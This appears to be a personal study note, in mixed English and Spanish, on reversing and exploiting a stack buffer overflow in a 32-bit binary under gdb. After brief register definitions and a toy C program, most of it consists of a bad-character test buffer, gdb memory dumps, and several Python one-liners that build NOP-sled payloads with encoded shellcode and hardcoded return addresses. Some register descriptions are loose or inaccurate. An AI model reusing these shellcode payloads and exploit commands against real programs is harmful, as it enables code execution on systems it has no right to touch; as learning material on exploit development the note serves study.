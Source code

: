 # Reversing

## Terminologies

- rbp => base pointer
- rsp => stack pointer
- rax => acumulador
- rdx => General register or to pass arguments.
- rcx => contador (used in loops).
- rsi => second variable
- rdi => first variable
- eip => next instruction to be executed
- eax => variable global usada en CPU architectures
- rbx => base
- rip => instruction pointer (actual instruction that is executing)
- lea => Load Effective address

## Keywords.

  - Breakpoint:

## Reversing samples

```gcc
int f(){
  return 5;
}

void hackthur(){
  printf("hello I'm Hackthur\n");
}

int main(){
  f();
  hackthur();
}
```


After the file creation, we need to check in gdb, what's going on in the binary in the execution




buffer = "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" => 256

```bash

$(python -c 'print "\x55" * (1040 - 256 -4) + "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" + "\x66"*4')
```

bad_characters = "\x00\x09\x0a\x20"
As the last "\x55" ends, this should be start with "\x00" that is a bad character
In the other observation

```bash
0xffffd5f0:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55
0xffffd5f8:     0x01    0x02    0x03    0x04    0x05    0x06    0x07    0x08
0xffffd600:     0x00    0x0b    0x0c    0x0d    0x0e    0x0f    0x10    0x11
0xffffd608:     0x12    0x13    0x14    0x15    0x16    0x17    0x18    0x19
```

Neither follow after \x08 is missing the \x09, so \x09 is another bad character

In the next line

```bash
0xffffd5da:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55
0xffffd5e2:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55
0xffffd5ea:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55
0xffffd5f2:     0x55    0x55    0x55    0x55    0x55    0x55    0x01    0x02
0xffffd5fa:     0x03    0x04    0x05    0x06    0x07    0x08    0x00    0x0b
0xffffd602:     0x0c    0x0d    0x0e    0x0f    0x10    0x11    0x12    0x13
```

\x0a is missing and in the next line \x20





$(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90" * 100 + "\xb8\x37\x03\x2b\x9d\xda\xc7\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x12\x83\xea\xfc\x31\x42\x0e\x03\x75\x0d\xc9\x68\x48\xca\xfa\x70\xf9\xaf\x57\x1d\xff\xa6\xb9\x51\x99\x75\xb9\x01\x3c\x36\x85\xe8\x3e\x7f\x83\x0b\x56\xff\x73\xec\xa7\x97\x71\xec\xdd\x0e\xff\x0d\x91\xb7\xaf\x9c\x82\x84\x53\x96\xc5\x26\xd3\xfa\x6d\xd7\xfb\x89\x05\x4f\x2b\x41\xb7\xe6\xba\x7e\x65\xaa\x35\x61\x39\x47\x8b\xe2"+ "\x4c\xd6\xff\xff")

run $(python -c 'print "\x55" *(1040 - 100 - 95 - 4)+"\x90"*100+"\xd9\xe9\xd9\x74\x24\xf4\xbf\xc2\x6d\x14\x0c\x5d\x31\xc9\xb1\x12\x83\xed\xfc\x31\x7d\x13\x03\xbf\x7e\xf6\xf9\x0e\x5a\x01\xe2\x23\x1f\xbd\x8f\xc1\x16\xa0\xe0\xa3\xe5\xa3\x92\x72\x46\x9c\x59\x04\xef\x9a\x98\x6c\xfa\x56\x54\x4a\x92\x64\x6a\xe8\x0b\xe0\x8b\xbc\xaa\xa2\x1a\xef\x81\x40\x14\xee\x2b\xc6\x74\x98\xdd\xe8\x0b\x30\x4a\xd8\xc4\xa2\xe3\xaf\xf8\x70\xa7\x26\x1f\xc4\x4c\xf4\x60"+"\x88\xd6\xff\xff"')


run $(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90" * 100 + "\xdb\xd6\xd9\x74\x24\xf4\xbb\x4f\x1f\x9b\xa6\x58\x2b\xc9\xb1\x12\x83\xe8\xfc\x31\x58\x13\x03\x17\x0c\x79\x53\x96\xe9\x8a\x7f\x8b\x4e\x26\xea\x29\xd8\x29\x5a\x4b\x17\x29\x08\xca\x17\x15\xe2\x6c\x1e\x13\x05\x04\xab\xe9\xfa\xf2\xc3\xef\x04\x80\x7a\x79\xe5\xc4\x1b\x29\xb7\x77\x57\xca\xbe\x96\x5a\x4d\x92\x30\x0b\x61\x60\xa8\xbb\x52\xa9\x4a\x55\x24\x56\xd8\xf6\xbf\x78\x6c\xf3\x72\xfa" + "\x88\xd6\xff\xff"')




0x37714336 => offset 2060
stack => 0xfffdc000 0xffffe000    0x22000        0x0 [stack]


## Running exploit


```bash
run $(python -c 'print "\x55"*(1040 - 100 - 95 -4)+"\x90"*100+"\xdb\xdd\xd9\x74\x24\xf4\xba\x3b\x56\x86\x65\x58\x31\xc9\xb1\x12\x31\x50\x17\x83\xc0\x04\x03\x6b\x45\x64\x90\xba\xb2\x9f\xb8\xef\x07\x33\x55\x0d\x01\x52\x19\x77\xdc\x15\xc9\x2e\x6e\x2a\x23\x50\xc7\x2c\x42\x38\xd2\xc4\xbb\x9e\x8a\xda\xc3\xa4\x23\x52\x22\xe8\xd2\x34\xf4\x5b\xa8\xb6\x7f\xba\x03\x38\x2d\x54\xf2\x16\xa1\xcc\x62\x46\x6a\x6e\x1a\x11\x97\x3c\x8f\xa8\xb9\x70\x24\x66\xb9"+"\x66"*4')


run $(python -c 'print "\x55"*(1040 - 100 - 95 -4)+"\x90"*100+"\xdb\xdd\xd9\x74\x24\xf4\xba\x3b\x56\x86\x65\x58\x31\xc9\xb1\x12\x31\x50\x17\x83\xc0\x04\x03\x6b\x45\x64\x90\xba\xb2\x9f\xb8\xef\x07\x33\x55\x0d\x01\x52\x19\x77\xdc\x15\xc9\x2e\x6e\x2a\x23\x50\xc7\x2c\x42\x38\xd2\xc4\xbb\x9e\x8a\xda\xc3\xa4\x23\x52\x22\xe8\xd2\x34\xf4\x5b\xa8\xb6\x7f\xba\x03\x38\x2d\x54\xf2\x16\xa1\xcc\x62\x46\x6a\x6e\x1a\x11\x97\x3c\x8f\xa8\xb9\x70\x24\x66\xb9"+"\x8c\xd6\xff\xff"')


echo "0xffffd68c"
echo "0xffffd684"

"\x84\xd6\xff\xff"
```